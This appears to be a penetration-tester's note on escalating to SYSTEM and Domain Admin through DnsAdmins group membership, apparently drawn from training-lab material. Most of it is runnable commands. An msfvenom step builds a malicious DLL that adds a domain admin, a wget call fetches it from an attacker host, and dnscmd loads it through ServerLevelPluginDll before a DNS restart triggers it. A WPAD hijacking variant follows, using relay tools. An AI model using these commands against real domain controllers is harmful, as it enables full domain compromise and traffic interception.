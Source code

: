 ### DnsAdmins
#### Summary

Members of the `DnsAdmins` group have significant privileges over the DNS server configuration. On domain controllers (where DNS usually runs), these privileges can be abused to load arbitrary DLLs using the `ServerLevelPluginDll` registry key and escalate to SYSTEM. This is a dangerous and powerful method of privilege escalation and lateral movement.
#### Privileges

- Modify the DNS server plugin path using `dnscmd`
- Indirect privilege escalation via DLL loading by SYSTEM    
- Potential for WPAD-based MITM attacks
#### Conditions

- DNS service must be installed and running (typically on Domain Controllers)    
- User must be a member of the `DnsAdmins` group
- Ability to restart DNS service (directly or indirectly)
- DLL must be accessible by the system account (e.g., via a shared folder)
#### Enumeration

Check group membership:

```cmd
net localgroup DnsAdmins
```

Confirm a user is in DnsAdmins via PowerShell:

```powershell
Get-ADGroupMember -Identity DnsAdmins
```

Check current DLL config:

```cmd
reg query HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```
#### Exploitation
##### DLL Injection via ServerLevelPluginDll

Generate a malicious DLL:

```bash
msfvenom -p windows/x64/exec CMD='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

Host the DLL:

```bash
python3 -m http.server 7777
```

Download on target:

```powershell
wget "http://<attacker-ip>:7777/adduser.dll" -OutFile "adduser.dll"
```

Load DLL as DnsAdmins member:

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

Check/confirm permissions on DNS service:

```cmd
wmic useraccount where name="netadm" get sid
sc sdshow dns
```

Restart DNS to trigger payload:

```cmd
sc stop dns
sc start dns
```

Verify added user or reverse shell:

```cmd
net group "Domain Admins" /domain
```
#### Cleanup

Delete registry key:

```cmd
reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

Restart DNS service:

```cmd
sc start dns
```

Verify:

```cmd
sc query dns
```
#### Alternative Exploit: WPAD Hijacking
##### Disable Global Query Block List:

```powershell
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```
##### Add WPAD Record:

```powershell
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
##### Relay/Capture Traffic with:

- `Responder`    
- `Inveigh`
- `Impacket smbrelayx`
#### Post-Exploitation

- Clear `ServerLevelPluginDll` key    
- Restore DNS service functionality
- Remove `wpad` record if created
- Provide client recommendations for:
    - Least privilege enforcement
    - DNS service hardening
    - Monitoring changes to DNS Parameters registry key        
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Privileged_Groups 